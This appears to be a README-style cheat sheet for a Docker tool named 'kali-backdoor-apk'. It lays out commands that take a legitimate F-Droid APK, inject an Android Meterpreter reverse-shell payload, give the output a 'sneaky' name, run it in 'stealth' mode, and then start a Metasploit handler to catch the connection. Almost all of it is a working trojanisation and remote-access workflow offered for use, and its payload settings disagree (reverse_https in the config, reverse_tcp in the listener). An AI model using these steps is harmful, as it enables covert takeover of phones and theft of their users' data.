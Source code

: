 # redteam-apk

📦 kali-backdoor-apk-cheatsheet
├── 📁 Setup (Prep Your Hack Lab) 🔧
│   ├── mkdir input output 📂📂
│   │   └── "Create folders for your target file and output hack" 💾➡️🔓
│   └── wget https://f-droid.org/repo/org.fdroid.fdroid_1013050.apk -O input/test.apk 🌐
│       └── "Download a test APK file to hack" 📥
├── 📁 Commands (Control Your Hack Bot) 🤖⚙️
│   ├── 🌟 Interactive Mode (Chatty Bot) 💬
│   │   └── docker run --rm -it -v $(pwd)/input:/app/input -v $(pwd)/output:/app/output kali-backdoor-apk:latest -i /app/input/test.apk
│   │       └── "Chat with the bot to inject a payload, get backdoored.apk" 💉📱
│   ├── 🌟 Custom Output (File Renamer) 🖌️
│   │   └── docker run --rm -it -v $(pwd)/input:/app/input -v $(pwd)/output:/app/output kali-backdoor-apk:latest -i /app/input/test.apk -o /app/output/hacked-app.apk
│   │       └── "Rename your hacked file to something sneaky" 📝
│   ├── 🌟 Config File (Script Loader) 📜
│   │   ├── Prep Config ⚙️
│   │   │   ├── echo 'LHOST="192.168.1.100"' > config.sh
│   │   │   ├── echo 'LPORT="4444"' >> config.sh
│   │   │   └── echo 'PAYLOAD="android/meterpreter/reverse_https"' >> config.sh
│   │   └── docker run --rm -v $(pwd)/input:/app/input -v $(pwd)/output:/app/output -v $(pwd)/config:/app/config kali-backdoor-apk:latest -i /app/input/test.apk -c /app/config/config.sh
│   │       └── "Load a pre-set script, skip the chit-chat" 🤖🚀
│   ├── 🌟 Silent Mode (Stealth Bot) 🕶️
│   │   └── docker run --rm -v $(pwd)/input:/app/input -v $(pwd)/output:/app/output kali-backdoor-apk:latest -i /app/input/test.apk -s
│   │       └── "Bot works quietly (needs config)" 🔇
│   ├── 🌟 Help Menu (Manual Scan) 📚
│   │   └── docker run --rm kali-backdoor-apk:latest -h
│   │       └── "Check the bot’s command manual" 👁️‍🗨️
│   └── 🌟 All-in-One (Full Hack Suite) 🛠️
│       └── docker run --rm -it -v $(pwd)/input:/app/input -v $(pwd)/output:/app/output -v $(pwd)/config:/app/config kali-backdoor-apk:latest -i /app/input/test.apk -o /app/output/hacked-app.apk -c /app/config/config.sh -s
│           └── "Run a stealth hack with custom name and script" 💻🔒
├── 📁 Spy Setup (Activate Listener) 📡
│   ├── msfconsole 🎧
│   └── Inside Metasploit:
│       ├── use exploit/multi/handler
│       ├── set PAYLOAD android/meterpreter/reverse_tcp
│       ├── set LHOST 192.168.1.100
│       ├── set LPORT 4444
│       └── exploit
│           └── "Turn on your spy antenna to catch the signal" 📶
├── 📁 Troubleshooting (Fix Bugs) 🐞
│   ├── "No APK!" Error 🚫
│   │   └── ls input (Ensure test.apk is there) 🔍
│   ├── Permission Error 🔐
│   │   └── sudo usermod -aG docker $USER (Log out/in) 🔑
│   ├── Silent Mode Fails 🤐
│   │   └── Add config.sh or remove -s ⚙️
│   └── Output Missing ❓
│       └── ls output (Check for hacked file) 📂
